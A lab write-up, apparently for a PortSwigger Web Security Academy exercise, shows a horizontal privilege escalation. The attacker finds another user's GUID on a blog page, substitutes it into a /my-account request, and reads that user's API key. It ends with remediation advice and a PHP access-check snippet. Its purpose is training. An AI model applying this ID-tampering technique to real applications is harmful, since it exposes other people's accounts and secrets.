

# Horizontal Privilege Escalation via GUID-based User Identification

### Objective
Exploit a horizontal privilege escalation vulnerability to access another user's account by identifying their GUID, then retrieve and submit their API key to solve the lab.

### Credentials
| Username | Password |
|----------|----------|
| wiener | peter |

### Lab URL
```
https://0a2100b303e0f6c3805c5d74001e00a2.web-security-academy.net
```

### Step 1: Study the Application

In Burp's browser, log in to your own account using the credentials `wiener:peter`.

Navigate through the application and observe that user accounts are identified using GUIDs (Globally Unique Identifiers) instead of sequential integers or usernames.

Notice that the blog posts page reveals user information through the `userId` parameter:

```
/blogs?userId=8b2aaf25-54fa-487d-b2b5-7f366693b94c
```

### Step 2: Locate Carlos's GUID

In the browser, browse blog posts and comments. Look for any content posted by the user `carlos`.

When you find a post or comment by carlos, examine the page source or the request/response in Burp Proxy.

Alternatively, review the HTTP history in Burp and look for requests to `/blogs` or endpoints that display user-specific content.

**Carlos's GUID discovered:**
```
8b2aaf25-54fa-487d-b2b5-7f366693b94c
```

### Step 3: Exploit the Horizontal Privilege Escalation

The user account page is accessible at `/my-account`. However, the application identifies users using the `id` parameter.

Modify the request to access carlos's account by substituting his GUID:

**Original request (your own account):**
```
GET /my-account?id=YOUR_GUID_HERE
```

**Modified request (carlos's account):**
```
GET /my-account?id=8b2aaf25-54fa-487d-b2b5-7f366693b94c
```

Send this request using Burp Repeater or directly in the browser.

### Step 4: Retrieve Carlos's API Key

In the response to the request above, locate the API key for carlos.

**API Key found:**
```
CgZBFFkBG1coCxdF8yYfgsoz1fGSHT4K
```

### Step 5: Submit the API Key

Submit the API key as the solution to solve the lab.

### Complete Exploit Summary

| Step | Action | Value |
|------|--------|-------|
| 1 | Log in as wiener | `wiener:peter` |
| 2 | Find carlos's post/comment | - |
| 3 | Extract carlos's GUID from blog endpoint | `8b2aaf25-54fa-487d-b2b5-7f366693b94c` |
| 4 | Access carlos's account page | `/my-account?id=8b2aaf25-54fa-487d-b2b5-7f366693b94c` |
| 5 | Extract API key from response | `CgZBFFkBG1coCxdF8yYfgsoz1fGSHT4K` |
| 6 | Submit API key | Lab solved ✓ |

### Attack Flow Diagram

```
Victim (carlos)                    Attacker (wiener)                    Server
     │                                    │                                 │
     │                                    │ 1. POST /login                  │
     │                                    │    (wiener:peter)               │
     │                                    │────────────────────────────────>│
     │                                    │                                 │
     │                                    │ 2. Session cookie assigned      │
     │                                    │<────────────────────────────────│
     │                                    │                                 │
     │                                    │ 3. GET /blogs?userId=...        │
     │                                    │────────────────────────────────>│
     │                                    │                                 │
     │                                    │ 4. Discovers carlos's GUID      │
     │                                    │    (8b2aaf25-54fa-...)          │
     │                                    │                                 │
     │                                    │ 5. GET /my-account?id=carlosGUID│
     │                                    │────────────────────────────────>│
     │                                    │                                 │
     │                                    │ 6. Returns carlos's account page│
     │                                    │    with API key                 │
     │                                    │<────────────────────────────────│
     │                                    │                                 │
     │                                    │ 7. Extracts API key and submits │
     │                                    │    Lab Solved! ✓                │
```

### Vulnerability Summary

| Vulnerability Type | Horizontal Privilege Escalation |
|--------------------|--------------------------------|
| Root Cause | Insecure direct object reference (IDOR) using GUIDs |
| Authentication Required | Yes (any valid user) |
| Impact | Access to any user's account and sensitive data (API keys) |

### Remediation Recommendations

1. **Implement proper access controls** – verify that the authenticated user is authorized to access the requested account
   ```php
   if ($_SESSION['user_id'] !== $requested_user_id) {
       http_response_code(403);
       die('Access denied');
   }
   ```

2. **Use server-side session mapping** – do not rely on client-supplied identifiers for authorization

3. **Implement indirect references** – use a mapping table instead of exposing GUIDs directly

4. **Audit and log** all access to sensitive endpoints like `/my-account`

### Tools Used
- Burp Suite (Proxy, Repeater, HTTP history)
- Burp Browser

### References
- PortSwigger Web Security Academy – Horizontal Privilege Escalation
